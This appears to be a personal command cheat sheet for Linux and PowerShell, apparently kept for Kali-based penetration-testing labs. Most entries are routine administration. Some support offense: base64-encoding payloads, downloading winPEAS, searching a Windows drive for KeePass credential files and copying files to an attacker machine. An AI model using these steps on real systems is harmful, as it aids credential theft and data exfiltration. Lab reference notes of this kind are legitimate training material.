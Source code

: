Locate file by name:
```bash
locate <filename>
```

Find commands:
```bash
man -k <regex search term>
```

Find command location:
```bash
which <command>
```

Find and replace in file:
```bash
sed -i ‘s/<search term>/<replace term>/g’ <target filename>
```

Change Password:
```bash
passwd
```

Start SSH:
```bash
sudo systemctl start ssh
sudo ss -antlp | grep sshd
```

Start HTTP:
```bash
sudo systemctl start apache2
sudo ss -antlp | grep apache
```
```bash
python3 -m http.server 80
```

See All Available Services:
```bash
systemctl list-unit-files
```

Install Shit Locally:
```bash
sudo dpkg -i ./<path to .deb file>
```

Assign New Environment Variable:
```bash
export NEW-VARIABLE-NAME=VALUE-TO-ASSIGN-IT-TO
```

Inspect Existing Environment Variables:
```bash
env
```

View Session Command History:
```bash
history
```

Rerun Command From History:
```bash
!<line number of command as displayed in history>
```
```bash
!! to execute the last command run
```

Monitor CPU Usage:
```bash
watch -n 1 ps aux --sort=%cpu | head -n 10
```

Get PID:
```bash
ps | grep <thing you want to find>
```
eg.
```bash
ps | grep firefox
```

Powershell or CMD:
```powershell
(dir 2>&1 *`|echo CMD);&<# rem #>echo Powershell
```

Powershell Convert to Base64:
```powershell
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('<insert payload here>'))
```

Powershell Convert from Base64:
```powershell
[Text.Encoding]::Utf8.GetString([Convert]::FromBase64String('<insert payload here>'))
```

Powershell download from URL:
```powershell
(New-Object System.Net.WebClient).DownloadFile("<URL>","C:\path\to\destination")
```

Alternative Powershell download from URL:
```powershell
iwr -uri http://my.url/winPEASx64.exe -Outfile winPEAS.exe
```

Powershell find Keepass file:
```bash
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

Powershell SCP:
```powershell
scp filename.txt kali@<our IP>:/home/kali
```

RDP Connection:
```bash
xfreerdp /u:offsec /p:lab /v:192.168.123.121
```

For when clipboard between Kali and Host is fucked again for no reason:
```bash
sudo apt remove open-vm-tools
sudo apt remove open-vm-tools-desktop
sudo apt install open-vm-tools
sudo apt install open-vm-tools-desktop
```

For when we wanna close irritating dangling loopback listeners, first identify them via:
```bash
ss -ntlpu
```
This likely won't show the PID, to get that:
```bash
sudo lsof -i :<PORT_IN_QUESTION>
```
Then kill the process:
```bash
kill <PID>
```
